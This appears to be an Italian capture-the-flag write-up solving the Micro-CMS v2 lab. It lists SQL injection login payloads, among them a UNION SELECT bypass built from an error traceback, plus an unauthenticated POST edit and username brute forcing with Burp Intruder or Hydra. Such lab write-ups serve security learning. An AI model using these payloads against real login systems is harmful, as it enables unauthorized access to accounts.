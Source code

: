 # Micro-CMS v2

## flag0

+ Creare nuova pagina, viene chiesto login

+ admin:password => 'Unknown user'

+ admin'sqltest:password => 'Traceback'

![picture](imgs/1.png)

+ admin' OR 1=1#:password => 'Invalid password' => quindi admin(true) e password(false)

+ admin= admin' UNION SELECT 'pwned'#  
+ password= pwned   (craftata guardando la query nell'error)

+ Flag si trova in una pagina che esce dopo aver loggato

![picture](imgs/2.png)

## flag1

+ POST request su edit page (curl , burpsuite , etc.)

## flag2

+ Hint dice: "Credentials are secret, flags are secret. Coincidence?"

+ Torno su login, admin' OR 1=1#:password => 'Invalid password' 

+ admin = dipa' OR 1=1# 
+ password= 'bruteforce con wordlist di username'

+ Io l'ho fatto con intruder di burpsuite, può essere fatto anche con hydra o tool simili.

+ [wordlist](https://github.com/jeanphorn/wordlist/blob/master/usernames.txt)
 